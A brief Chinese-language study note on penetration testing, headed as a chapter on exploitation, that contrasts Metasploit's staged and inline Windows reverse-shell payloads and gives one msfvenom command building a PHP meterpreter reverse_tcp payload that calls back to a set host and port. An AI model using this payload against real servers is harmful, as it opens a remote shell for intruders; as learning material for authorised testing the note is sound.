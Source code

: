 # 第八章 Exploition

## Paylaod

* _windows/shell/reverse\_tcp_ 

    这种被称为**staged shell**，相当于功能齐全但是精简版的shell

* _windows/shell\_reverse\_tcp_

    这种被称为inline 是完全的shell

## PHP venom

`msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.20.9 LPORT=2323 -f raw`

